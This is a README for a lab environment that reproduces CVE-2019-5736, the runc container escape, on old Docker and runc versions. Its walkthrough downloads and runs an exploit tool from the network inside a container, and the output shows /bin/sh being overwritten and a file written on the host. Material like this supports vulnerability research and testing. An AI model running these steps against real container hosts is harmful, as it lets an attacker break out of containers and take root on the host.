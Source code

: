 # cve-2019-5736

* dqd:
  * ssst0n3/docker_archive:cve-2019-5736 -> ssst0n3/docker_archive:cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:cve-2019-5736_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2019-5736 -> ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0

## usage

```shell
$ cd vul/cve-2019-5736
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ ./ssh
```

### reproduce

terminal 1

```shell
root@cve-2019-5736:~# docker run --name poc -ti ubuntu:16.04 bash
root@b54c1cd02517:/# wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
root@b54c1cd02517:/# chmod +x /usr/bin/ctrsploit
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
```

terminal 2

```shell
root@cve-2019-5736:~# docker exec -ti poc /bin/sh
```

terminal 1

```shell
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
INFO[0000] Found the PID: 22                            
INFO[0000] Successfully got the file handle             
INFO[0000] Successfully got write handle&{0xc00009a060} 
INFO[0000] The command executed is#!/bin/bash
touch /escaped
root@c4602d14a7f8:/# exit
-rw-r--r-- 1 root root 0 Oct 14 08:49 /escaped
```


### env details

```shell
root@cve-2019-5736:~# docker --version
Docker version 17.06.0-ce, build 02c1d87
root@cve-2019-5736:~# docker-runc --version
runc version 1.0.0-rc3
commit: 2d41c047c83e09a6d61d464906feb2a2f3c52aa4
spec: 1.0.0-rc5
```

## build

```shell
make all DIR=vul/cve-2019-5736
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
```

